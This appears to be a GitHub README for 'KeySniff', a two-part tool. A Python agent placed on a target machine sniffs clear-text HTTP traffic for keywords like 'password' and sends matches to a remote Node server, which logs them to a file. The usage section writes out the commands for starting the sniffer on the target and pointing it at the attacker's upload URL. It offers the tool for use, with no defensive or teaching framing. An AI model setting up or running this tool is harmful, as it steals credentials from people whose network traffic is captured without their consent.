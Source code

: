 # KeySniff
A multi threaded script for sniffing clear-text (HTTP) data and sending filtered keywords to a remote server.

KeySniff has two parts:
1. Agent - a python script that uses scapy to capture packets from a specific port and filter for a filtered keyword (like "password"). After finding the keyword, the agent will send it over HTTP to a remote server.
2. Server - a NodeJS server that waits for POST requests that contain a client's key for validating the source, and if the key is valid, the server stores the data from the client in a text file on the server.

# Usage

## On Server's Side
1. Install NodeJS on your server.
```bash
curl -sL https://deb.nodesource.com/setup_16.x -o /tmp/nodesource_setup.sh;
chmod +x /tmp/nodesource_setup.sh
/tmp/nodesource_setup.sh
sudo apt install nodejs -y
```

2. Clone the server repository and CD into the server directory.

3. Install the server NPM dependencies:
```bash
sudo npm install
```

4. Initiating the server:
```bash
sudo node server.js --port 8080 --key secret-key --output passowrds.txt
```

## On Target's Side
1. Make sure that the target machine supports Python3 and install the dependencies:
```bash
sudo pip3 install scapy
```

2. Initiate the client with the correct configurations as arguments:
```bash
sudo python3 keySniff.py -p [PORT] -i [INTERFACE] -f [My-Keyword] -s http://[NODE-SERVER-IP]/upload -k [SECRET-KEY]
```

3. When the keyword will be captured, the agent will send it to the Node server and you'll see in the file.
